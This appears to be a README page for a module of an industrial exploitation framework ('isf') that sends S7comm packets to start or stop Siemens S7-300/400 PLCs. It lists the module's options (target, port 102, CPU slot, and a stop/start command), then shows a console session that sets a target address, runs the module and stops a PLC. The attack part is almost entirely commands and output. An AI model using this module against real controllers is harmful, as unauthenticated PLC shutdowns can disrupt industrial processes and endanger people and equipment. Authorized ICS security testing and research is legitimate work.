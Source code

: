 You can use the tab key for completion.


## Options
### Display module options:
    isf (S7-300/400 PLC Control) > show options
    
    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name        Current settings     Description
       ----        ----------------     -----------
       slot        2                    CPU slot number.
       command     1                    Command 0:start plc, 1:stop plc.
    
    
    isf (S7-300/400 PLC Control) >
    
### Set options
    isf (S7-300/400 PLC Control) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    

## Run module
    isf (S7-300/400 PLC Control) > run
    [*] Running module...
    [+] Target is alive
    [*] Sending packet to target
    [*] Stop plc
    isf (S7-300/400 PLC Control) >
    
## Display information about exploit
    isf (S7-300/400 PLC Control) > show info
    
    Name:
    S7-300/400 PLC Control
    
    Description:
    Use S7comm command to start/stop plc.
    
    Devices:
    -  Siemens S7-300 and S7-400 programmable logic controllers (PLCs)
    
    Authors:
    -  wenzhe zhu <jtrkid[at]gmail.com>
    
    References:
    